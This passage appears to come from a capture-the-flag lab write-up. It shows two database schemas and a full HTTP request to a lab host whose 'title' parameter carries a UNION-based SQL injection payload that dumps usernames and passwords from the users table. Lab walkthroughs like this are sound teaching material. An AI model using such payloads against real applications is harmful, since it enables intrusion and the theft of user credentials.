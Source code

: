 ```sql
CREATE TABLE notes (
    id integer primary key,
    username text not null,
    title text not null,
    note text not null
)
```

#### `users`

```sql
CREATE TABLE users (
    id integer primary key,
    username text unique not null,
    password text not null
)
```

Dump each table until the flag is found. Start with `users`, as it is generally the most interesting.

```http
GET /challenge6/book?title=%')+UNION+SELECT+1,id,username,password+FROM+users-- HTTP/1.1
Host: 10.10.141.250:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: session=.eJyrVkrOSMzJSc1LTzWLLy1OLYrPTFGyMtNBF85LzE1VslIqSc_MSFPSUcpNzMxLLCiILyxNLapUskpLzClOrQUAHh4bmA.YQ8GJg.Dld_9hHLGCER2geRTTYpc2xkKZE
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Cache-Control: max-age=0
```

This reveals the flag as `admin`'s password.
